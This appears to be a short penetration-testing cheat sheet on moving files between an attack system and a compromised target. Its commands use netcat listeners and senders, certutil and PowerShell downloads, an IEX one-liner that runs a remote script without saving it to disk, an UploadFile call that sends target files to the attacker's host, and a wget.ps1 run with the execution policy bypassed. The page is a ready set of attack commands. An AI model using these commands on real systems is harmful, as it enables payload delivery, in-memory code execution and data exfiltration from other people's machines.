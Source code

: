 ## File transfer via netcat

Netcat - listen for incoming file

```bash
nc -nlvp 4444 > incoming.exe
```

Netcat - send file

```bash 
nc -nv <ip address> 4444 < outgoing.exe
```

## File transfers via web

```bash
# Set up web server
python3 -m http.server

# Alternate if using /var/www
systemctl start apache2
```

```bash
# Commands for Windows systems to grab file from attack system
certutil -urlcache -f http://<ip>/<file>
cscript wget.vbs http://<ip>/<file> <file>
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<ip>/<file>', '<file>')
```

```powershell
# Run powershell script on attack systemwithout saving to disk
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://<ip>/<file.ps1>')
```

```bash
# Transfer file to attack system (using upload.php script)
powershell (New-Object System.Net.WebClient).UploadFile('http://<ip>/upload.php', '<file>')
```

### wget.ps1 script

```powershell
# Create file on command line
C:\> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\> echo $url = "http://<ip>/<file>" >>wget.ps1
C:\> echo $file = "<file>" >>wget.ps1
C:\> echo $webclient.DownloadFile($url,$file) >>wget.ps1

# Run script
C:\> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

